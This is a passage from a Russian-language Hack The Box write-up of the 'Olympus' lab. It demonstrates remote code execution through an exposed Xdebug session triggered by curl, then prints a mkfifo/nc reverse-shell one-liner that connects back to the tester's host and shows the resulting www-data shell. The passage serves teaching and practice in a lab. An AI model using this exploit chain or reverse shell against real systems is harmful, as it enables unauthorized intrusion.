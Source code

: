 Ловим отчет об удачном пинге на поднятом на фоне tcpdump'е, а также получаем похожее сообщение об успехе операции от процесса, где бежит curl:
```text
root@kali:~# tcpdump -v -i tun0 'icmp[icmptype]==8'
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:02:34.256845 IP (tos 0x0, ttl 62, id 57110, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.10.83 > kali: ICMP echo request, id 153, seq 0, length 64
16:02:35.242676 IP (tos 0x0, ttl 62, id 57292, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.10.83 > kali: ICMP echo request, id 153, seq 1, length 64
```

```text
root@kali:~# curl -H 'X-Forwarded-For: 10.10.14.14' 'http://10.10.10.83/index.php?XDEBUG_SESSION_START=phpstorm'
64 bytes from 10.10.14.14: icmp_seq=0 ttl=62 time=68.001 ms
64 bytes from 10.10.14.14: icmp_seq=1 ttl=62 time=68.690 ms
--- 10.10.14.14 ping statistics ---
2 packets transmitted, 2 packets received, 0% packet loss
round-trip min/avg/max/stddev = 68.001/68.346/68.690/0.345 ms
```

Обратим внимание на base64-свойство `CDATA` (на 2 code-секции выше), которое при декодирование даст:
```text
root@kali:~# base64 -d <<< 'cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA2OC4wMDEvNjguMzQ2LzY4LjY5MC8wLjM0NSBtcw=='
round-trip min/avg/max/stddev = 68.001/68.346/68.690/0.345 ms
```

В красках все выглядело так (красные числа — порядок активности панелей):

[![xdebug-exploit-poc.png]({{ "/img/htb/boxes/olympus/xdebug-exploit-poc.png" | relative_url }})]({{ "/img/htb/boxes/olympus/xdebug-exploit-poc.png" | relative_url }})
{: .center-image}

На этом считаю тест успешно завершенным, можно переходить к боевым действиям.

### Reverse-Shell [Олимпия]
Для получения сессии повторим операцию выше, только на этот раз в качестве пейлоада для Xdebug укажем bash-реверс-шелл:
```text
...
>> system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 31337 >/tmp/f')
...
```

Ии ловим ответ:
```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.83.
Ncat: Connection from 10.10.10.83:54230.

/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ uname -a
Linux f00ba96171c5 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) x86_64 GNU/Linux
```

